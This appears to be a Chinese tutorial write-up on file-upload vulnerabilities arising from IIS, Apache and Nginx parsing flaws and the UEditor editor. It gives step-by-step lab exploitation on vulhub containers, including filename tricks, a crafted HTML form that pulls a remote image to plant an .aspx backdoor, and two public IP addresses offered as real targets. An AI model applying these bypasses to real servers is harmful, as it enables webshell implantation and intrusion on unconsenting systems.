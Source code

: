 ![1645589734427-e070dd0d-3298-4944-9bfd-c5cf55abdc09.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171419867-769207984.png)

```plain
#知识点：
1、中间件安全问题
2、中间件文件上传解析
3、Web应用编辑器上传

#详细点：
1、检测层面：前端，后端等
2、检测内容：文件头，完整性，二次渲染等
3、检测后缀：黑名单，白名单，MIME检测等
4、绕过技巧：多后缀解析，截断，中间件特性，条件竞争等

#本章课程内容：
1、文件上传-CTF赛题知识点
2、文件上传-中间件解析&编辑器安全
3、文件上传-实例CMS文件上传安全分析

#前置：
后门代码需要用特定格式后缀解析，不能以图片后缀解析脚本后门代码(解析漏洞除外)
如：jpg图片里面有php后门代码，不能被触发，所以连接不上后门
如果要图片后缀解析脚本代码，一般会利用包含漏洞或解析漏洞，还有.user.ini&.htaccess

#实例CMS&平台-中间件解析&编辑器引用
1、中间件配置不当导致文件被恶意解析
2、CMS源码引用外部编辑器实现文件上传
```

- 中间件文件解析-IIS&Apache&Nginx

IIS

```plain
-IIS 6 7 文件名 目录名
1、文件名：x.asp;.x.jpg
2、目录名：x.asp/x.jpg
3、IIS7.X与Nginx解析漏洞一致

访问192.168.199.136:81/upload.asp
登录admin panfei806
验证平台是没有任何问题，但是因为是搭建在IIS6.0的平台，所以发生了这种漏洞

上传文件，抓包
```

![1645575239507-aa248cab-811e-4924-bf64-0e9867ea011b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171444085-671863753.png)

```plain
上传正常的图片，保存的路径为http://192.168.199.136:81/20222238134313887.gif
发现路径可疑的值filepath=/
修改filepath的值，可以发现
```

![1645575447902-25f789d4-c788-4b13-a217-f091ccd81dfd.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443879-407470378.png)

```plain
根据IIS的解析漏洞，把filepath的值修改为x.asp;.则filepath=/x.asp;.
```

![1645575533380-8c834da3-b076-4308-b82b-fa6e49756fc5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171444024-2138064984.png)

```plain
发现图片地址变成为http://192.168.199.136:81/x.asp;.20222238184089551.gif
访问这个地址，就可以从触发asp的代码。
```

![1645576004256-c34d8a9f-a5fc-414b-9bfb-95b152b9e813.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443162-1741469889.png)

```plain
修改filepath的值，同样也适用于目录的漏洞解析 filepath=/x.asp/
```

![1645576237258-1b1750f2-f695-473a-821f-af99b412f044.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443360-1598473887.png)

```plain
访问http://192.168.199.136:81/x.asp/20222238295688388.jpg
但是连接不成功，登上去服务器也没有发现这个x.asp的目录
那个怎么利用这个解析漏洞呢
条件：
1.是这个中间件
2.上传文件能不能修改上传目录或者上传的文件名能增加命名
如果上传的文件名是固定的，而且目录也没办法创建，那么这个漏洞就没有用处。

命名格式：基于本地名命名，基于时间命名，基于随机字符命名
```

Apache

# Apache HTTPD 换行解析漏洞（CVE-2017-15715）

```plain
启动环境：
cd vulhub-master/
cd httpd/CVE-2017-15715/
sudo docker-compose build
suod docker-compose up -d

访问了对应的ip地址跟端口，但是页面什么都没有。

sudo docker-compose down
wp:https://vulhub.org/#/environments/httpd/CVE-2017-15715/
上传的时候在name后面加上/0a
访问的时候，访问后面加上%0a

这个漏洞利用条件：
条件：
1.是这个中间件
2.黑名单验证（在黑名答案的后缀不让上传php,jsp脚本）
白名单可能不行（在白名单里面才能上传 jpg png gif）

为什么说白名单可能不行呢，因为如果上传1.jpg.php%0a的话，如果没有考虑最后一个点为后缀，这个白名单就可以进行绕过。

php%0a绕过黑名单，这个后缀是不是也能正常解析脚本代码（但是绕过不了phpp%0a白名单）
```

# Apache HTTPD 多后缀解析漏洞

```plain
启动环境：
cd apache_parsing_vulnerability/
sudo docker-compose up -d
启动完成
```

![1645581376800-28cca0c8-fcf3-4e7e-a92d-508d9fff64a1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443416-1483571780.png)

```plain
访问地址 http://192.168.199.129/
上传一个jpg的图片，把图片的名字改为1.php.jpg，发现能上传成功。
```

![1645581605937-5a959058-950d-4ca4-b92c-b285fdf78c80.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443361-528338137.png)

```plain
访问：http://192.168.199.129/uploadfiles/1.php.jpg
执行出PHPinfo效果。
```

![1645581694205-a223cf38-83a4-4b25-97f5-247b40e794ff.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443660-1202392463.png)

```plain
如果这个文件保存的文件名是基于时间或者其他命令格式的话，把1.php.jpg命名成2022......655.jpg的话，那么这个漏洞就没有用。
```

Nginx

Nginx 文件名逻辑漏洞（CVE-2013-4547）

```plain
wp:https://vulhub.org/#/environments/nginx/CVE-2013-4547/

启动环境：
cd /vulhub-master/nginx/CVE-2013-4547
sudo docker-compose build
sudo docker-compose up -d

访问http://192.168.199.129:8080/
先来信息收集等：发现是php+nginx搭建的平台。
```

![1645582916411-da59fdac-bd74-46a5-8e6f-5c976b72dced.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443189-1772524519.png)

```plain
上传一个1.jpg的图片，注意在1.jpg中后面还应该有一个空格
```

![1645583134410-59fb8174-8294-42da-846a-354cf59e19fa.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443591-151507932.png)

```plain
对图片地址进行访问，因为在访问地址的时候，这个数据包不抓，所以进行访问首页添加地址，
在访问URL中/uploadfiles/11.png   .php
用hex16进制修改20 00 发送数据包即可。
```

![1645583702893-aacce380-0f39-42a5-b70e-f5a9da5f4252.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443869-419854806.png)

Nginx 解析漏洞复现

```plain
wp:https://vulhub.org/#/environments/nginx/nginx_parsing_vulnerability/

启动环境，找到相对应目录，一样启动道理

访问http://192.168.199.129，信息收集发现是Nginx和php
上传图片，发现是对文件头进行检测，所以加上GIF89a进行绕过。
```

![1645584627584-c7cfd190-4fbf-4351-8a52-b1e246fd71ad.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443676-2065208776.png)

```plain
访问图片地址：http://192.168.199.129/uploadfiles/f3ccdd27d2000e3f9255a7e3e2c48800.jpg/*naoenlkf.php
在后面加上/*fnawejnf.php，就可以执行出PHP效果。
```

![1645584748374-e32202f5-e5f5-4147-9216-1463d447a986.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171443893-842277730.png)

```plain
也有一些真是网站：
137.175.110.160
81.69.23.137

条件：
只要是Nginx就可以进行测试。
```

------

- Web应用编辑器-Ueditor文件上传安全

```plain
编辑器是为了方便开发者，进而开发的一个插件。对文件的处理，文件的上传。可以通过自己代码写，也可以通过插件来进行功能的实现。

搭建利用过程：https://www.cnblogs.com/hei-zi/p/13394764.html
太麻烦了。
搭建完成后，构造一个html代码：
<form action="http://192.168.46.139/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
<p>shell addr: <input type="text" name="source[]" /></p>
<input type="submit" value="Submit" /> 
</form>

上传一个带有shellcode的图片https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png加上?.aspx
然后在返回的地址里面进行访问，得到后门。
```